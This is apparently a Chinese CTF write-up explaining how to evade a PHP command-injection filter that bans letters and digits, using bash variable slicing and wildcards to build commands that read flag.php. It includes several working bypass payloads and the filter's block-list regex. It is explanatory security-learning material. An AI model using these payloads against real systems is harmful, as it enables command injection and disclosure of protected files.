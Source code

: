 

# Linux中内置的bash变量

> 构造nl flag.php
>
> payload:${PATH:14:1}${PATH:5:1}
> 过滤了数字时：payload:${PATH:~A}${PWD:~A} ????.???

 $PATH的最后一位是n $PWD的最后一位 也就是 /var/www/html的最后一位是l
在linux中可以用~获取变量的最后几位，而字母起到的作用是和0相同的，所有${PATH:~A}其实就是${PATH:~0}

![](http://img.npfs06.top/20210225143606.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



### 过滤了path时

```
构造 /bin/base64 flag.php 

payload: ${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
```

需要/和4两个字符就行，其他的可以用通配符代替

/很简单，pwd的第一位就是，因为这题ban了数字，所以可以用该题值必是1的`${#SHLVL}`绕过：

> SHLVL 是记录多个 Bash 进程实例嵌套深度的累加器,进程第一次打开shell时${SHLVL}=1，然后在此shell中再打开一个shell时$SHLVL=2。

只需要`${PWD::${SHLVL}}`，结果就是`/`



还有一个4的问题，可以用`${#RANDOM}`，在Linux中，`${#xxx}`显示的是这个值的位数，例如12345的值是5，而random函数绝大部分产生的数字都是4位或者5位的，因此可以代替4.

![](http://img.npfs06.top/20210225150320.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



```
构造 /bin/cat flag.php 

paylaod:  ${PWD::${#SHLVL}}???${PWD::${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???
```



构造`/bin/cat flag.php`,需要t和/，`${HOME}`默认是`/root`，所以需要得到他的最后一个字母，容器的hostname为4个字母，所以`${#HOSTNAME}`可以从第5位开始，1还是用`${#SHLVL}`代替



### 过滤了SHLVL时

```
 payload: ${PWD::${#?}}???${PWD::${#?}}?????${#RANDOM} ????.???
```

```php
 ## 过滤模板
 if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|HOME|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
```
